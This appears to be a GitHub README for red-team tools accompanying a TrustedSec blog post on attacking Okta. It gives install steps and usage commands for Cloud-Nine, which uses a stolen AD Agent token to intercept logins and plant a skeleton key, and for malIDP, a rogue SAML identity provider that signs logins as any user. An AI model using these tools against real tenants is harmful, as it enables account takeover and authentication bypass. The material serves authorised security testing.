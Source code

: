## Info

This repo contains projects to support the "Okta for Red Teamers" blog post [here](https://www.trustedsec.com/?p=30372).

## Cloud-Nine

An Okta Agent tool which emulates an AD Agent, allows interception of authentication requests, and adding a skeleton key.

### Installation

```
python3 -m venv env
source ./env/bin/activate
pip install -r requirements.txt
```

### Usage

Two modes are supported:

1. Use an stolen AD Agent token to connect to Okta and intercept authentication requests:

```bash
python ./main.py --tenant-domain example.okta.com --skeleton-key WibbleWobble99 token --api-token 0023452Lllk2KqjLBvaxANWEgTd7bqjsxjo8aZj0wd --app-id 0oa7c027u2TcJxoki697 --agent-id a537cnm9ldwPILkqP697
```

2. Register a new AD Agent with Okta and intercept authentication requests:

> Note: You'll need an OAuth Response Code which you can get from:

```
https://example.okta.com/oauth2/authorize?redirect_uri=%2Foauth-response&response_type=code&client_id=cappT0Hfy97F1BoO1UTR&prompt=select_account
```

Then we can pass this as an arg to:

```bash
python ./main.py --tenant-domain example.okta.com --skeleton-key WibbleWobble99 oauth --machine-name DC01 --windows-domain lab.local --code OAUTH_CODE_HERE
```

## malIDP

A small (and very janky) SAML IDP which will sign SAML responses to authenticate as any user.

### Installation

```
python3 -m venv env
source ./env/bin/activate
pip install -r requirements.txt
```

### Usage

```bash
python ./main.py --cert ./public_cert.crt --key ./private.key --metadata ./metadata.xml --issuer 'https://www.legitidp.com/'
```

